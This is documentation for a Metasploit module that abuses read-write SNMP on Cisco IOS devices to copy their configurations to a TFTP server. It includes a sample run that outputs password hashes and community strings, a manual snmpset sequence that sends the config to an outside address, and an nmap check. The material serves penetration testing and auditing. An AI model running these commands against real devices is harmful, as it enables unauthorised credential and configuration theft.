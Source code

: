 ## Vulnerable Application

  Cisco IOS devices can be configured to back-up their running and startup configurations via SNMP.
  This is a well [documented](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
  feature of IOS and many other networking devices, and is part of an administrator functionality.
  A read-write community string is required, as well as a tftp server (metasploit includes one).
  After the config has been copied, the SNMP paramters are deleted.

## Verification Steps

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_config_tftp```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set rhosts [ip]```
  6. Do: ```run```

## Options

  **COMMUNITY**

  The SNMP community string to use which must be read-write.  Default is `public`.

## Scenarios

### Cisco UC520-8U-4FXO-K9 running IOS 12.4

```
msf5 > setg rhosts 2.2.2.2
rhosts => 2.2.2.2
msf5 > use auxiliary/scanner/snmp/cisco_config_tftp
msf5 auxiliary(scanner/snmp/cisco_config_tftp) > set community private
community => private
msf5 auxiliary(scanner/snmp/cisco_config_tftp) > run

[*] Starting TFTP server...
[*] Scanning for vulnerable targets...
[*] Trying to acquire configuration from 2.2.2.2...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Providing some time for transfers to complete...
[*] Incoming file from 2.2.2.2 - 2.2.2.2.txt 22831 bytes
[+] 2.2.2.2:161 MD5 Encrypted Enable Password: $1$TF.y$3E7pZ2szVvQw5JG8SDjNa1
[+] 2.2.2.2:161 Username 'cisco' with MD5 Encrypted Password: $1$DaqN$iP32E5WcOOui/H66R63QB0
[+] 2.2.2.2:161 SNMP Community (RO): public
[+] 2.2.2.2:161 SNMP Community (RW): private
[*] Shutting down the TFTP service...
[*] Auxiliary module execution completed
```

### Manual Interaction
This process can also be executed manually utilizing Metasploit's TFTP server.
Cisco's [documentation](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
was utilized to create this process.

1. Start the TFTP server

```
msf5 > use auxiliary/server/tftp 
msf5 auxiliary(server/tftp) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/tftp) > 
[*] Starting TFTP server on 0.0.0.0:69...
[*] Files will be served from /tmp
[*] Uploaded files will be saved in /tmp
```

2. Execute the SNMP commands.  An integer is required to group the requests together, `666` is used in this example.

```
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.2.666 = INTEGER: 1
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 4 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 4 

iso.3.6.1.4.1.9.9.96.1.1.1.1.3.666 = INTEGER: 4
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.4.666 = INTEGER: 1
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a "1.1.1.1" 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a "1.1.1.1" 

iso.3.6.1.4.1.9.9.96.1.1.1.1.5.666 = IpAddress: 1.1.1.1
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s "backup_config" 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s "backup_config" 

iso.3.6.1.4.1.9.9.96.1.1.1.1.6.666 = STRING: "backup_config"
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 1 
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 1 

iso.3.6.1.4.1.9.9.96.1.1.1.1.14.666 = INTEGER: 1
```

3. At this point the config is transferring, we need to wait a few seconds.  Lastly, we'll remove `666` from the system.

```
msf5 auxiliary(server/tftp) > snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 6
[*] exec: snmpset -v 1 -c private 2.2.2.2 .1.3.6.1.4.1.9.9.96.1.1.1.1.14.666 i 6

iso.3.6.1.4.1.9.9.96.1.1.1.1.14.666 = INTEGER: 6
```

4. Confirm we have our config file

```
msf5 auxiliary(server/tftp) > ls -lah /tmp/backup_config
[*] exec: ls -lah /tmp/backup_config

-rw-r--r-- 1 root root 23K Oct 11 22:20 /tmp/backup_config
```

## Confirming using NMAP

Utilizing the [snmp-ios-config](https://nmap.org/nsedoc/scripts/snmp-ios-config.html) script

```
nmap -sU -p 161 --script snmp-ios-config --script-args creds.snmp=:private 192.168.2.239
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-11 22:30 EDT
Nmap scan report for 192.168.2.239
Host is up (0.0034s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-ios-config: 
| !
| ! Last configuration change at 18:01:46 PST Fri Jan 7 2000 by cisco
| ! NVRAM config last updated at 06:07:55 PST Tue Jan 4 2000 by cisco
| !
| version 12.4
| parser config cache interface
| no service pad
| service timestamps debug datetime msec
| service timestamps log datetime msec
| no service password-encryption
| service internal
| service compress-config
| service sequence-numbers
| !
| hostname UC520
...sip...
```
